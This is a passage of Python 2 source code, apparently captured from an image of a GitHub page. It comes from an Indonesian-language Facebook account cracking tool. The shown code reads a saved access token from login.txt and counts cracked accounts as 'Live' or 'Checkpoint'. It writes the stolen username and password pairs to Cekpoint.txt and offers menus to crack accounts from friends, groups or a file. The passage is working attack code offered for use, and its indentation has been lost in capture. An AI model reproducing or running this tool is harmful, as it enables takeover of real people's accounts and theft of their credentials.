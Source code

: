 cek = open('Cekpoint.txt', 'w')
cek.write(username + ' | ' + passw + '\n')
cek.close()
cekpoint.append('\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)
back += 1
else:
gagal.append(username)
back += 1
sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))
sys.stdout.flush()

except IOError:
print '\n\x1b[1;91m[!] Connection busy'
time.sleep(1)
except requests.exceptions.ConnectionError:
print '\x1b[1;91m[\xe2\x9c\x96] No connection'


def hasil():
print
print 52 * '\x1b[1;97m\xe2\x95\x90'
for b in berhasil:
print b

for c in cekpoint:
print c

print
print '\x1b[31m[x] Failed \x1b[1;97m--> ' + str(len(gagal))
keluar()


def super():
global toket
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()

os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '║-> \x1b[1;37;40m1. Crack from Friends'
print '║-> \x1b[1;37;40m2. Crack from Group'
print '║-> \x1b[1;37;40m3. Crack from File'
print '║-> \x1b[1;31;40m0. Kembali'
print '\x1b[1;37;40m║'
pilih_super()
